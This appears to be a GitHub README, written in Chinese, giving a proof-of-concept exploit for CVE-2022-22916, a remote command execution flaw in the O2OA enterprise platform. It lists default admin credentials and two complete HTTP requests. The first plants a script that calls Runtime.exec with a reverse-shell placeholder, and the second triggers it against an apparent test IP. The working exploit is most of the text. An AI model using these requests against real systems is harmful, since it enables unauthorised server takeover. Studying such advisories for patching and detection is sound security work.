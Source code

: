 # CVE-2022-22916
CVE-2022-22916,O2OA RCE 远程命令执行
## O2OA RCE 远程命令执行（CVE-2022-22916）

O2OA是一个基于J2EE分布式架构，集成移动办公、智能办公，支持私有化部署，自适应负载能力的，能够很大程度上节约企业软件开发成本的基于AGPL协议开放源代码的企业信息化系统需求定制开发平台解决方案。 通过 /x_program_center/jaxrs/invoke 发现 O2OA v6.4.7 包含一个远程代码执行 (RCE) 漏洞。

# 第一步：
登录账号 xadmin/o2
获取Authorization

# 第二步：添加接口

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Host: 123.58.236.76:33455
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: 你的Authorization
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 475

{"name":"aodsec","id":"aodsec","alias":"","description":"","isNewInvoke":true,"text":"\nvar p = java.lang.Runtime.getRuntime().exec('反弹shell命令');\nvar sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\nvar result = sc.hasNext() ? sc.next() : \"\";\nsc.close();","enableToken":false,"enable":true,"remoteAddrRegex":"","lastStartTime":"","lastEndTime":"","validated":true}
```

# 第二步：执行命令


```
POST /x_program_center/jaxrs/invoke/aodsec/execute?v=6.3 HTTP/1.1
Host: 123.58.236.76:43953
Content-Length: 0
Accept: text/html,application/json,*/*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Authorization: 你的Authorization
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://123.58.236.76:43953
Referer: http://123.58.236.76:43953/x_desktop/index.html
Accept-Encoding: gzip, deflate
Cookie:  
Connection: close
```
